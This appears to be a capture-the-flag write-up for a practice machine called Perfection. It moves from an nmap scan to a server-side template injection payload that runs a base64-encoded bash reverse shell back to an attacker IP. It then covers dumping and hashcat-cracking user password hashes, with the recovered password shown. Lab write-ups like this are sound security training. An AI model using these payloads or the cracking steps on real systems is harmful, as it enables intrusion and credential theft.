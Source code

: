 
## NMAP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-15 18:47 EDT
Nmap scan report for perfection.htb (10.10.11.253)
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.41 seconds


## VULNARABILITY
 ssti
 https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

The use of hURL to encode and decode payloads showcases the manipulation of data to exploit web application vulnerabilities. The payload crafted for the Weighted Grade Calculator application is designed to execute a reverse shell command, taking advantage of any potential server-side code execution vulnerabilities.




https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a

## Base64-Encoded
┌──(kali㉿kali)-[~/Machine/Perfection]
└─$ hURL -B "bash -i >& /dev/tcp/10.10.16.94/4444 0>&1"

Original       :: bash -i >& /dev/tcp/10.10.16.94/4444 0>&1
base64 ENcoded :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45NC80NDQ0IDA+JjE=


 
## URL-encoded 
┌──(kali㉿kali)-[~/Machine/Perfection]
└─$ hURL -U "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45NC80NDQ0IDA+JjE="

Original    :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45NC80NDQ0IDA+JjE=
URL ENcoded :: YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi45NC80NDQ0IDA%2BJjE%3D




payload 
a%0A<%25%3dsystem("echo+<reverseshelle>|+base64+-d+|+bash");%25>1

a%0A<%25%3dsystem("echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi45NC80NDQ0IDA%2BJjE%3D|+base64+-d+|+bash");%25>1


## Privialge escalation
upgarde the shell 
python3 -c 'import pty;pty.spawn("/bin/bash")'


find the hash
──(kali㉿kali)-[~/Machine/Perfection]
└─$ strings pupilpath_credentials.db 
SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f

###Info Password generator

susan@perfection:/var/mail$ cat susan
cat susan
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
#### Try crack use hashcat

Crack
┌──(kali㉿kali)-[~/Machine/Perfection]
└─$ hashcat -m 1400 -a 3 hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d   

Show
┌──(kali㉿kali)-[~/Machine/Perfection]
└─$ hashcat -m 1400 -a 3 hash.txt --show                        
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210


## FLAGS

User d2a6d6d2d24d939bcbc3a431ae3ad814

Passwd hash:Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f text:!(3(r3@m..*7¡Vamos!




